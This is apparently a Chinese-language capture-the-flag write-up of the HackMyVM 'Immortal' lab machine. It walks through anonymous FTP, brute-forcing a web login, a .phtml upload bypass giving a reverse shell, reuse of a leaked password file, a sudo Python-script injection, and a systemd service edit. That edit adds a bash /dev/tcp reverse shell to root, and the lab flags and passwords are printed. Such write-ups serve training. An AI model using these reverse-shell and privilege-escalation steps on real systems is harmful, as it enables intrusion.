

# Immortal.

> https://hackmyvm.eu/machines/machine.php?vm=Immortal
> 

Notes: **Are you ready to become immortal?**

## 信息收集

```python
nmap -sP 192.168.56.0/24               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 03:21 EST
Nmap scan report for 192.168.56.1
Host is up (0.00033s latency).
MAC Address: 0A:00:27:00:00:09 (Unknown)
Nmap scan report for 192.168.56.2
Host is up (0.00043s latency).
MAC Address: 08:00:27:25:40:B0 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.15
Host is up (0.00042s latency).
MAC Address: 08:00:27:13:BB:B5 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.4
```

```python
nmap -sT -sV -O -p- 192.168.56.15         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 03:25 EST
Nmap scan report for 192.168.56.15
Host is up (0.00061s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
MAC Address: 08:00:27:13:BB:B5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```python
nmap -script=vuln -p- 192.168.56.15
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 03:26 EST
Nmap scan report for 192.168.56.15
Host is up (0.00080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 08:00:27:13:BB:B5 (Oracle VirtualBox virtual NIC)
```

## 渗透

优先级 `21` > `80` > `21`

### FTP

尝试使用匿名帐户登录，成功登录

```python
ftp 192.168.56.15
Connected to 192.168.56.15.
220 (vsFTPd 3.0.3)
Name (192.168.56.15:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

存在`message.txt`拉取下来

```python
ftp> ls
229 Entering Extended Passive Mode (|||36827|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             504 Feb 27  2024 message.txt
226 Directory send OK.
ftp> get message.txt
local: message.txt remote: message.txt
229 Entering Extended Passive Mode (|||20892|)
150 Opening BINARY mode data connection for message.txt (504 bytes).
100% |****************************************************************************************************************|   504      861.97 KiB/s    00:00 ETA
226 Transfer complete.
504 bytes received in 00:00 (408.79 KiB/s)

```

查看文件内容

```python
┌──(root㉿kali)-[~/Desktop/test/Immortal]
└─# cat message.txt  
Hey guys!
I made it, after all this time. That's right guys, the great precious immortality. The one coveted by all and achieved by none. Favoured by all and owned by none. 
Now we have to be careful guys, we have to hide this from the world, from governments and other dangerous institutions. 
They may even have already heard about our achievement, they are everywhere! That's why I have decided to strengthen the security of the server. What if they try to hack us!!! 
Wishing you a long life, David.
```

```python
嘿伙计们！
经过这么长时间，我终于做到了。没错，伙计们，这是伟大而宝贵的不朽。人人都渴望，却无人能及。人人都喜欢，却无人拥有。
现在我们必须小心，伙计们，我们必须向世界、政府和其他危险机构隐瞒这件事。
他们甚至可能已经听说过我们的成就，他们无处不在！这就是为什么我决定加强服务器的安全性。如果他们试图入侵我们怎么办！！！
祝你长命富贵，大卫。
```

`FTP`好像就这些内容

### HTTP 服务

访问网站主页，存在一个登录框



尝试扫描一下目录，啥也没扫描出来

```python
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.56.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 1837]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

尝试爆破，`BURP`抓包，使用`rockyou`字典，爆破一段时间后可以看到一个状态码为`302`跳转的


在网页上使用`santiago`登录，成功进入


里边存在一些`txt`文件

```python
# /chat/message.txt
I am very happy that you have included me in the project 
for the quest for immortality. I am sure we will succeed, whatever it takes. 
Best regards, Drake
# /chat/message2.txt
Message to Eric.
Remember to buy mice for the experiments, there are very few left. Also remember to tell Boyras to give us the money he owes us, or else we'll have to beat it out of him ourselves.
Regards, David.
# /chat/message3.txt
Message to all.
I'm glad you made it, I knew you would guess the password, it's the one we always used, although Boyras recommended us to stop using it because "it was in rockyou". 
By the way guys, you can still upload messages to the server from this new path -> upload_an_incredible_message.php
Saying goodbye very happy, David
# /important/important.txt
Nothing important
-. --- - .... .. -. --.
.. -- .--. --- .-. - .- -. -
# /tests/test30.txt
Test 30 : passed

I can't believe it! It's unbelievable! It's amazing!

But...

Men die
Woman die
Dogs die
Is it worth living forever, if you will live alone?
```

从`/chat/message3.txt`信息的得知还存在`upload_an_incredible_message.php` 文件，是一个文件上传功能点（可能存在文件上传漏洞），而且应该是上传到`chat`目录下的

在`/important/important.txt`发现一串类似摩斯密码的字符串，解码结果为 **NOTHING IMPORTANT**

### upload_an_incredible_message.php

确实是一个文件上传点，测试一下上传路径和漏洞


我们上传一个文件`messagebysunset.txt` ，上传成功，查看文件上传路径，和之前猜测的一样是在`chat` 文件夹


测试是否存在任意文件上传，经过测试，可以通过用别的`php`文件后缀绕过，这里使用`phtml` ，上传成功，并且内容可以显示出来


上传反弹`shell`代码，同时`kali`开启监听


```python
# kali 开启监听
┌──(root㉿kali)-[~/Desktop/test/Immortal]
└─# nc -lvp 1234            
listening on [any] 1234 ..
```

访问上传的文件后，获得`shell`

```python
nc -lvp 1234            
listening on [any] 1234 ...
192.168.56.15: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.4] from (UNKNOWN) [192.168.56.15] 50024
bash: cannot set terminal process group (458): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Immortal:/var/www/html/longlife17/chat$ 
```

### 靶机信息收集

上传`linpeas.sh`信息收集，发现许多有趣的文件

```python
╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 root root 0 Jan 30 07:16 /run/network/.ifstate.lock
-rw------- 1 root root 0 Feb 27  2024 /etc/.pwd.lock
-rw-r--r-- 1 root root 220 Mar 27  2022 /etc/skel/.bash_logout
-rw-r--r-- 1 drake drake 220 Feb 27  2024 /home/drake/.bash_logout
-rw-r--r-- 1 eric eric 134 Feb 27  2024 /home/eric/.note.txt
-rw-r--r-- 1 eric eric 220 Feb 27  2024 /home/eric/.bash_logout
-rw-r--r-- 1 root root 0 Feb 22  2021 /usr/share/dictionaries-common/site-elisp/.nosearch

╔══════════╣ Files inside others home (limit 20)
/home/drake/.../pass.txt
/home/drake/.bashrc
/home/drake/.bash_logout
/home/drake/.profile
/home/drake/user.txt
/home/eric/.note.txt
/home/eric/.bashrc
/home/eric/.bash_logout
/home/eric/.profile
/var/www/html/index.php
/var/www/html/upload_an_incredible_message.php
/var/www/html/longlife17/tests/test18.txt
/var/www/html/longlife17/tests/test23.txt
/var/www/html/longlife17/tests/test14.txt
/var/www/html/longlife17/tests/test10.txt
/var/www/html/longlife17/tests/test27.txt
/var/www/html/longlife17/tests/test30.txt
/var/www/html/longlife17/tests/test9.txt
/var/www/html/longlife17/tests/test6.txt
/var/www/html/longlife17/tests/test1.txt

╔══════════╣ Unexpected in /opt (usually empty)
drwxr-xr-x  2 root root 4096 Feb 28  2024 .
drwxr-xr-x 18 root root 4096 Feb 27  2024 ..
-rw-rw-rw-  1 root root  147 Feb 28  2024 immortal.py
-rw-r--r--  1 root root   36 Feb 28  2024 immortal.txt

╔══════════╣ Active Ports                                                                                                                                    
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports                                                                 
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*                                                                                                
tcp   LISTEN 0      5            0.0.0.0:14464      0.0.0.0:*    users:(("python3",pid=1026,fd=3))                                                           
tcp   LISTEN 0      32                 *:21               *:*                                                                                                
tcp   LISTEN 0      128             [::]:22            [::]:*                                                                                                
tcp   LISTEN 0      511                *:80               *:*       
```

### UserFlag

可以看到`user.txt`在`/home/drake/user.txt` ，尝试直接读取成功

```python
www-data@Immortal:/home/drake$ cat user.txt
nothinglivesforever
```

### 提权 - Drake

继续通过`Linpeas`给出的信息进行寻找可利用的

1. `eric` 用户家目录中的`/home/eric/.note.txt`
    
    ```python
    www-data@Immortal:/home/eric$ cat .note.txt
    I think I should tell David that this immortality thing is not a good idea, although I'm sad to tell him, he's so excited about it
    ## 我想我应该告诉大卫，永生不是什么好主意，尽管我很伤心地告诉他，他对此很兴奋
    ```
    
2. `/opt`下的`immortal.txt` 和 `immortal.py`
    
    ```python
    www-data@Immortal:/opt$ cat immortal.txt
    Every man dies. Not every man lives
    ## 每个人都会死，但不是每个人都能活
    ```
    
    ```python
    www-data@Immortal:/opt$ cat immortal.py
    a = input(str("Do you want to be immortal: "))
    
    if a.lower() == "yes" or a.lower() == "no":
       print("Bad answer")
    else:
       print("Are you sure?")
    ```
    
    好像并没有用，不过发现对`immortal.py`我们拥有修改权限
    
    ```python
    www-data@Immortal:/opt$ ls -al
    drwxr-xr-x  2 root root 4096 Feb 28  2024 .
    drwxr-xr-x 18 root root 4096 Feb 27  2024 ..
    -rw-rw-rw-  1 root root  147 Feb 28  2024 immortal.py
    -rw-r--r--  1 root root   36 Feb 28  2024 immortal.txt
    ```
    
3. **/home/drake/.../pass.txt**
    
    看着像是密码
    
    ```python
    www-data@Immortal:/opt$ cat /home/drake/.../pass.txt
    netflix : drake123
    amazon : 123drake
    shelldred : shell123dred (f4ns0nly)
    system : kevcjnsgii
    bank : myfavouritebank
    nintendo : 123456
    ```
    
    尝试使用`SSH`登录，使用`system`的密码，登陆成功
    
    ```python
    ┌──(root㉿kali)-[~/Desktop/test/Immortal]
    └─# ssh drake@192.168.56.15
    drake@192.168.56.15's password: 
    Linux Immortal 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Thu Feb 29 18:55:43 2024 from 10.0.2.15
    drake@Immortal:~$ 
    ```
    

### 提权 - Eric

查看权限

```python
drake@Immortal:/opt$ sudo -l
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
```

我们将`python`文件修改，将提权语句写进去

```python
import os; os.system("/bin/bash -i")
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
else:
   print("Are you sure?")
```

然后运行文件，获得`eric`用户

```python
drake@Immortal:/opt$ sudo -u eric /usr/bin/python3 /opt/immortal.py
```

### 提权 - Root

再次查看权限，可以已`root`权限运行`Immortal` 服务

```python
eric@Immortal:/opt$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```

看到存在`sudoedit /etc/systemd/system/immortal.service` ，那么就可以用来提权乐

修改`immortal.service`文件，添加反弹`shell`代码，然后`kali`开启监听

```python
eric@Immortal:/usr/bin$ sudoedit /etc/systemd/system/immortal.service
//
[Unit] 
Description=Immortal Service
After=network.target

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'echo "Every man dies. Not every man lives" > /opt/immortal.txt'
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.4/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

然后执行`/usr/bin/systemctl start immortal.service`

```python
eric@Immortal:/usr/bin$ sudo /usr/bin/systemctl start immortal.service
```

然后`Kali`就可以获取到`root`的反弹过来的`shell`

```python
┌──(root㉿kali)-[~/Desktop/test/Immortal]
└─# nc -lvp 4444
listening on [any] 4444 ...
192.168.56.15: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.4] from (UNKNOWN) [192.168.56.15] 60160
bash: cannot set terminal process group (14559): Inappropriate ioctl for device
bash: no job control in this shell
root@Immortal:/# cat /root/root.txt
fiNally1mMort4l
```